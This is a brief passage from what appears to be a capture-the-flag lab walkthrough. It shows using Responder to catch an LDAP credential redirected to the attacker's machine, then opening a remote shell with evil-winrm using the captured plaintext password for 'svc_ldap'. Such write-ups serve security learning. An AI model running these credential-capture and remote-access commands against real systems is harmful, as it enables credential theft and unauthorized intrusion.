 I change the IP to get a request to my machine on LDAP port.

![image.png](image%209.png)

Before that I launch responder

```bash
responder -I tun0
```

![image.png](image%2010.png)

```bash
evil-winrm 10.10.11.222 -u 'svc_ldap' -p 'lDaP_1n_th3_cle4r!'
```

![image.png](image%2011.png)
